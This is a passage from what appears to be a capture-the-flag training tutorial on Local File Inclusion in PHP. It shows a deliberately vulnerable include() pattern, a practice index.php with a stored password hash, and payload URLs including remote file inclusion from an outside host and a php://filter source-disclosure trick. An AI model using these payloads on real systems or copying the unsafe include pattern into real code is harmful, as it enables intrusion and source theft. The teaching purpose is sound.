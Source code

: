 ```python
			found = False
			break
```

After running the script, you can login with the username/password and obtain the flag!


Local File Inclusion
======================
A file inclusion vulnerability is a type of vulnerability that is often found on websites. It allows an attacker to include a file , usually through a script on the webserver.
The vulnerability occurs due to the use of user-supplied input without proper validation. 

Consider this PHP example:
```php
<?php
   if ( isset( $_GET['COLOR'] ) ) {
	   include( $_GET['COLOR'] . '.php' );
   }
?>
```

In this example, making use of the COLOR parameter, an attacker is able to specify an arbitrary file to be included.
* vulnerable.php?color=<b>exploit.php</b> - Executes codes from an existing file in the server.

However, if the server was misconfigured, the vulnerability can become more critical.
PHP misconfiguration: allow_url_include=on and allow_url_fopen=on
* vulnerable.php?color=<b>http://www.nusgreyhats.org/exploit.php</b> - Injects a remotely hosted file containing malicious codes

Since PHP 5.0.0, an attacker is able to use the function PHP://filter/convert.base64-encode/resource to view the source code of any PHP file.
* vulnerable.php?color=<b>php://filter/convert.base64-encode/resource=vulnerable</b> - View the source code of vulnerable.php in base64 encoding.
With the base64 encoding of <b>vulnerable.php</b>, an attacker can decode the file and obtain the source code.

### Practical: Local File Inclusion
Please look at the problem on the scoreboard, and obtain the URL for this problem. Using the PHP filter function, view the source code of the file.

Take a look at the source of index.php:
```php
<?php
$pwhash="ffd313452dab00927cb61065a392f30ae454e70f";

if (@$_GET['log']) {
		include($_GET['log'].".log");
}
include((@$_GET['page']?$_GET['page'].".php":"main.php"));

?>
```

